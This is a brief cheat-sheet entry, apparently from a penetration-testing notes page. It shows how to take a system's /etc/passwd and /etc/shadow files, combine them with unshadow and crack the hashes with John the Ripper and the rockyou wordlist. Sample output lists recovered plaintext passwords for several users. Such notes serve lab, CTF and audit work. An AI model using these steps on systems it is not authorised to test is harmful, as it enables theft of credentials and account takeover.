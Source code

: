 # Linux

## Unshadow Passwd & Shadow

You need to download 2 files. /etc/passwd & /etc/shadow

```console
$ unshadow <passwd> <shadow> > hashes.txt
```

Then crack it with john

```shell
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt new.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (karen)
Password1        (user2)
test123          (gerryconway)
3g 0:00:00:13 DONE (2022-02-19 19:18) 0.2155g/s 1268p/s 1783c/s 1783C/s 111292..ellie123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```